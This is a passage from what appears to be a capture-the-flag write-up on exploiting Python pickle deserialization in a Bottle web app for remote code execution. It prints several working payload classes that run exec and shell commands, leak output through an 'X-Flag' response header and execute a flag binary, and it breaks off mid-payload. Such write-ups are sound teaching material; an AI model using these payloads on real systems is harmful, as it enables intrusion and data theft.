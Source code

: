 ```
This works locally, but not on the server. Seems like the admins really locked down the user permissions and disabled the tmpfs.

Searching for another way to get the output back to me, I tried to set a response header from within the RCE:
```
# ...
class PickleRCE(object):
    def __reduce__(self):
        return (exec,("""
from bottle import response
import glob
response.set_header('X-Flag',glob.glob('/*'))
""",))
# ...
```
This works, also on the remote. Success!
```
x-flag: ['/dev', '/opt', '/root', '/media', '/usr', '/tmp', '/srv', '/bin', '/var', '/lib64', '/run', '/sbin', '/mnt', '/sys', '/proc', '/boot', '/home', '/etc', '/lib', '/flag', '/app']
```
We can see a glob match called /flag in our response above.

Trying to read it however fails with a server error.
```
# ...
class PickleRCE(object):
    def __reduce__(self):
        return (exec,("""
from bottle import response
import subprocess,base64
output = subprocess.check_output('ls -la /', shell=True)
response.set_header('X-Flag',base64.b64encode(output))
""",))
# ...
```
By running a shell command with subprocess.check_output, we can execute shell commands and get the stdout back as a string. (Notice how I now base64 encode the output, as it might contain newlines, which are invalid as header values contents)

By running the above shell command, we find out that we can only execute the binary, not read it (Which makes sense, as otherwise it would have been possible to download the flag just by using the LFI vulnerability and some guessing of flag paths, not actually achieving remote code execution):

```
---x--x--x   1 root root  568 Sep 15 06:37 flag
```

So, we use a shell command that runs the binary to get the flag:
```
# ...
class PickleRCE(object):
    def __reduce__(self):
        return (exec,("""
from bottle import response
import subprocess,base64
flag = subprocess.check_output('/flag', shell=True)
